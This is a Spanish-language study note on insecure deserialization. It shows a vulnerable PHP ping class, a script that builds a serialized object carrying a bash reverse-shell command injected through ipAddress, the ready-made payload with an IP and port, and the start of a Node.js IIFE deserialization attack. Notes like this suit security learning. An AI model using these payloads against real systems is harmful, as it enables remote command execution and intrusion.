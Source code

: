 ```php
        {
		if ($this->isValid) {
			$this->output = shell_exec("ping -c 3 $this->ipAddress");	
		}
        }
}
if (isset($_POST['obj'])) {
	$pingTest = unserialize(urldecode($_POST['obj']));
} else {
	$pingTest = new pingTest;
}
$pingTest->validate();
```

Donde, tras analizar el código, podriamos pensar en que si lograramos hacer que el valor de ipAddress sea un comando de bash a la par que isValid sea True, estariamos con la posibilidad de inyectar comandos en el sistema a traves de un **Deserialization attack**. 

Podriamos crear un script de php imitando la funcionalidad del código que pudimos ver, para de esta manera recrear un **nuevo** objeto **serializado**.

```php
<?php 

class pingTest {
	public $ipadress = "; bash -c 'bash -i >& /dev/tcp/{ip}/{port} 0>&1'";
	public $isValid = True; 
	public $output = ""; 
}

echo serialize(new pingTest);
```

Logrando así, obtener un obj serializado válido el cual nos envía una reverse shell, teniendo así, posiblidad de [[RCE - (Remote Command Execution)]]. 

##### `O:8:"pingTest":3:{s:9:"ipAddress";s:53:"; bash -c 'bash -i >& /dev/tcp/192.168.1.38/443 0>&1'";s:7:"isValid";b:1;s:6:"output";s:0:"";}`

----
#  Nodejs Deserialization attack (unserialize)

Ahora, en un escenario de un **node deserialization attack** podriamos hacer uso del concepto **IIFE (Inmediatly Invoked Function Exression)**, el cual consiste en la declaración de funciones que son ejecutadas en el mismo momento de la declaración, de manera que, si capturaramos por ejemplo, una cookie la cual es `eyJ1c2VybmFtZSI6ImFqaW4iLCJjb3VudHJ5IjoiaW5kaWEiLCJjaXR5IjoiYmFuZ2Fsb3JlIn0=`, al decodearle veriamos la sig data serializada: 

`{"username":"dobliuw","country":"india","city":"bangalore"}`, mientras que en la web vemos un "Hello dobliuw", podemos deducir que si cambiamos esta data serializada, para que en lugar de donde dice "dobliuw" diga otra cosa que ingresemos nosotros, podrimaos intentar hacer uso de un **IIFE** para que a la hora de que se deserialize dicha data, se ejecute una instrucción de [[RCE - (Remote Command Execution)]]. 
